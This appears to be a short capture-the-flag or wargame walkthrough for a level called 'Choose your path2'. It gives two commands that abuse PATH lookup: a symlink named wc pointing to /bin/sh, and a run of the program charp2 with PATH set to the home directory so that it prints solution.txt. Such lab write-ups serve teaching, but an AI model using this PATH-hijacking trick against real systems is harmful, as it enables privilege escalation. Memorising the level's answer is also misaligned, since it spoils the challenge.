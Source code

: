 ## Level 11 (Choose your path2)

 - First, create a symbolic link named "wc" in your home directory pointing to the executable file /bin/sh
 

    ` ln -s /bin/sh ~/wc`

 - Then, execute charp2 while temporarily modifying the PATH to search for executables only in the current directory. After that, use "cat" to display the content of the solution.txt file, redirecting the output to the standard error stream.
 
    `PATH=~ ./charp2 "/bin/cat solution.txt 1>&2"`

